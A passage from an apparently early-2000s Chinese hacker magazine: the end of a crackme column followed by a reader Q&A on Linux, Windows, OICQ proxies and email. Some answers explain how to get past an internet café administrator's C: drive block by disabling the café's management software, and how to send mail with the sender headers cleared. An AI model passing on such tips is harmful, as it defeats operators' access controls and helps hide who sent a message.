大家先消化好这一期的内容，下一期的KeyFile保护的Crackme可没有这一期这么弱智了。没有基础的话，很难看懂哟。

这一期的栏目就到这里为止，有问题的朋友可以随时和我联系：mijiexianzong@sina.com，解决文章中的各种问题。下期见。

## KK编辑互动

### INTERCOURSE >栏目编辑>Derek>derek@hacker.com.cn

又是一次“迁徙”，编辑部这次搬到了公司最高处，确切的说是楼层的最高层，视野开阔，也很安静，正适合黑编们的“自由”精神。看，F-king已经依此为家，吃喝住都搬到这儿了，成天笑脸贴着显示屏（这家伙500度近视却不戴眼睛）在充电，做着攻防试验。突然，所有的电脑全部黑屏了，所有的脑袋全看着bright，没电了，接着编辑部一下子就变得热闹起来，F-king直喊着，完了完了，没有存盘……

问：我的redhat7.2在终端下用ping的时候，除了常规信息，还有一句"time of day goes back,taking countermeasures"。

答：问题在于你的ping的格式比你的内核新，使用ping的-U选项来解决此问题。

问：最近我刷新happytime时把所有的folder.htt和desktop.ini都删了，现在文件夹都不能以Web页方式查看了，我该怎么办？

答：文件夹的WEB查看方式只与FOLDER.HTT有关,你把这个文件拷回来就可以了,位置在:

- C:\WINDOWS
- C:\WINDOWS\SYSTEM
- C:\WINDOWS\SYSTEM32
- C:\WINDOWS\WEB

问：你好，suse8内置有ADSL设置，USER PASSWORD设好重起后dsl0是skip,不知如何解决?

答：在网络配置中有一项DSL的菜单，用root打开后，会跳出一个对话框，问是不是什么用户，当然不是，选择NO，就跳到下一个画面，和Windows XP中一样，有关网卡IP的设置，如果是内网，填上你的IP，如果直接连网，选DHCP就可以，然后再panel上就有一个连接的图标，点开选DIAL-in，就可以。

问：请问.sh文件应如何安装

答：.sh是shell脚本程序，一般在Linux中chmod u+x *.sh然后直接运行即可。

问：请教各个位大侠，VB6.0中文版里面有显示的乱码这个问题是怎么回事?谢谢!

答：看你的情况应该是中文版汉化得有问题，建议你使用英文版，不然编译程序的时候也会出错。

问:用OICQ的时候经常有人用消息炸弹攻击我，听说可以通过设置网络代理来隐藏自己的IP地址，请问如何设置?

答：首先打开OICQ的“系统参数”，单击“网络设置”，选中“使用PROXY SOCKET5防火墙”。在“防火墙地址”、“端口号”、“校验用户名”、“校验用户名密码”处输入你寻找的免费代理地址。能在OICQ中使用的代理为SOCKS4和SOCKS5型的，端口号为：1080。好了，把IP地址和端口号填入（校验用户名和密码一般不用填），点击“测试”按钮，如果你填入的代理地址有效，则会弹出“代理服务器工作正常”提示框，否则就会弹出“无法连接到代理服务器”的提示。上述步骤做完之后，最后点击“确定”完成。代理服务器的地址很多网站有提供，自己用工具也可以找到很多。要特别注意的一点是：按照上述方法找到确实可用的代理服务器后，要先退出OICQ再重新登录，这样才会改变OICQ的IP，否则OICQ的IP不会改变的。代理服务器有时候会失效，需要换一个新的服务器。此方法只能隐藏OICQ的IP，即别人通过一般的OICQ工具查不到你的真实IP地址。这种办法对消息炸弹毫无用处。因为消息炸弹和一般的消息无异，只是时间短得多而已。拒绝OICQ消息炸弹其实很简单，只要在“系统参数”→“安全设置”项选中“拒绝陌生人的消息”就可以了，这两种方法一起用的话，通过OICQ攻击你的可能性就大大降低了。

问：在网吧中网管常禁止访问C盘怎么办?

答：你在腾讯浏览器里打c:就可以了或者用安全模式启动后，运行msconfig把网管软件取消运行就可以了。也可以去www.hao123.com，它内边有一个在线注册表恢复的命令，用这个也可以!

问：请问如何在Foxmail中发送匿名电子邮件?

- 点击新邮件,进入邮件编辑状态;
- 点击显示其他邮件头信息工具按钮;
- 分别选中发送人地址和回复地址;
- 这时你会发现在收件人地址上会显示发送邮件地址和回复地址输入栏;
- 依次将两项全部清空;
- 保存邮件即可(即时发送或是保存为侯发邮件)。

问：网络代理都有哪些种类?

答：网络代理主要有以下几种：HTTP代理、FTP代理、SOCKS代理、SECURE代理、Gopher代理和Telnet代理。